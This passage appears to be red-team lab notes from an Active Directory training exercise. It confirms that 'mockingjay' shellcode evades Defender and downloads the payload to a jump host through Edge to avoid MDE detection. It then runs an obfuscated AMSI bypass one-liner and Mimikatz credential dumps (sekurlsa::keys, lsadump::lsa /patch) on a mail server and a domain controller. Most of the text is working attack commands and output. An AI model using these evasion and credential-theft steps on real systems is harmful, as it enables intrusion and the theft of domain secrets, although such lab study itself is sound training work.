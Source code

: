 Confirm that the mockingjay POC and `nano.bin` shellcode is undetected by AV using AmsiTrigger/DefenderCheck.

```
PS C:\AD\Tools> C:\AD\Tools\DefenderCheck.exe C:\AD\Tools\mockingjay\mockingjay.exe

[+] No threat found in submitted file!

PS C:\AD\Tools> C:\AD\Tools\DefenderCheck.exe C:\AD\Tools\mockingjay\nano.bin

[+] No threat found in submitted file!
```

Now host `mockingjay.zip` and `nano.bin` on our student VM using HFS.
Make sure firewall is disabled before doing so.

From the process running with privileges of `jumpone`, connect to `us-jump3` and then download `mockingjay.zip` using `msedge.exe`.

```
PS C:\Windows\system32> winrs -r:us-jump3 cmd

Microsoft Windows [Version 10.0.17763.3650]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\jumpone$>
🚀

C:\Users\jumpone$>set u

USERDNSDOMAIN=US.TECHCORP.LOCAL
USERDOMAIN=US
USERNAME=jumpone$ 👤
USERPROFILE=C:\Users\jumpone$
```

⚠️ Note that using commonly abused binaries such as certutil for downloads, will result in a detection on MDE.

Wait a few seconds for the download to complete.

```
C:\Users\jumpone$>cd Downloads

C:\Users\jumpone$\Downloads>"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --incognito http://192.168.100.51/mockingjay.zip

C:\Users\jumpone$\Downloads>[4900:3916:0429/072527.219:ERROR:os_crypt_win.cc(87)] Failed to encrypt: The requested operation cannot be completed. The computer must be trusted for delegation and the current user account must be configured to allow delegation. (0x80090345)
[4900:3916:0429/072528.210:ERROR:policy_logger.cc(156)] :components\enterprise\browser\controller\chrome_browser_cloud_management_controller.cc(161) Cloud management controller initialization aborted as CBCM is not enabled. Please use the `--enable-chrome-browser-cloud-management` command line flag to enable it if you are not using the official Google Chrome build.
[4900:2636:0429/072528.585:ERROR:login_database_async_helper.cc(213)] Encryption is not available.
[4900:3916:0429/072529.445:ERROR:edge_auth_errors.cc(514)] EDGE_IDENTITY: Get Default OS Account failed: Error: Primary Error: kImplicitSignInFailure, Secondary Error: kAccountProviderFetchError, Platform error: -2147023584, hex:80070520, Error string:

[4900:3916:0429/072529.616:ERROR:download_status_updater_win.cc(34)] Failed initializing an ITaskbarList3 interface.

[SNIP]

C:\Users\jumpone$\Downloads>dir

[SNIP]

 Directory of C:\Users\jumpone$\Downloads
```

[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc]: PS C:\Users\Administrator\Documents> whoami
[us-dc]: PS C:\Users\Administrator\Documents> hostname
[us-dc]: PS C:\Users\Administrator\Documents>exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'